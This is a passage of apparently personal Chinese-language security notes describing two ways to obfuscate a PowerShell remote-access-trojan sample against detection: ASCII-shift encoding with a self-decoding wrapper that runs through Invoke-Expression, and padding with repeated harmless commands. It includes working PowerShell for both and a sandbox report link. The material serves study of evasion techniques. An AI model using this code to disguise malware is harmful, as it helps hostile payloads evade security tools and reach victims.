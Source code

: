 ##### 自定义加密

攻击者可以自定义加解密方案, 例如读取 RATSample.ps1, 将其中所有字符的 ASCII 码 +1 然后补齐 3 位生成一串加密指令然后对应解码执行

```powershell
$originalScript = Get-Content -Path "../../RATSample.ps1" -Raw
Write-Host $originalScript
$encryptedScript = ($originalScript.ToCharArray() | ForEach-Object {
    $asciiValue = [int][char]$_ + 1
    $asciiValue.ToString("D3")
}) -join ''
$decryptionScript = @"
`$encryptedScript = '$encryptedScript'
`$decryptedScript = ''
for (`$i = 0; `$i -lt `$encryptedScript.Length; `$i+=3) {
    `$asciiValue = [int]::Parse(`$encryptedScript.Substring(`$i, 3)) - 1
    `$decryptedScript += [char]`$asciiValue
}
Invoke-Expression `$decryptedScript
"@

$decryptionScript | Out-File -FilePath "EncryptedRAT.ps1"
```

![image-20240102033515761](http://cdn.ayusummer233.top/DailyNotes/202401020335834.png)

![image-20240102034136813](http://cdn.ayusummer233.top/DailyNotes/202401020341871.png)

---

[样本报告-微步在线云沙箱 (threatbook.com)](https://s.threatbook.com/report/file/4673839b2e1403c7c1cad50913517f3e9e7d3e4491da36cebac882051a0ba749)

![image-20240115181202403](http://cdn.ayusummer233.top/DailyNotes/202401151812539.png)

---

#### 填充合法的系统命令

和填充脏数据差不多的意思, 通过填充大量合法指令来混淆视听, 例如

```powershell
$repeatedCommands = @(
    "'Get-Host'",
    "'Get-Date'",
    "'Get-Service'",
    "'Get-Process'",
    "'Get-EventLog -LogName System'"
) * 100 # 重复100次
$originalScript = Get-Content -Path "../RATSample.ps1" -Raw
$obfuscatedScript = $repeatedCommands + $originalScript + $repeatedCommands
$obfuscatedScript -join "`n" | Out-File -FilePath "ObfuscatedRAT.ps1"
```
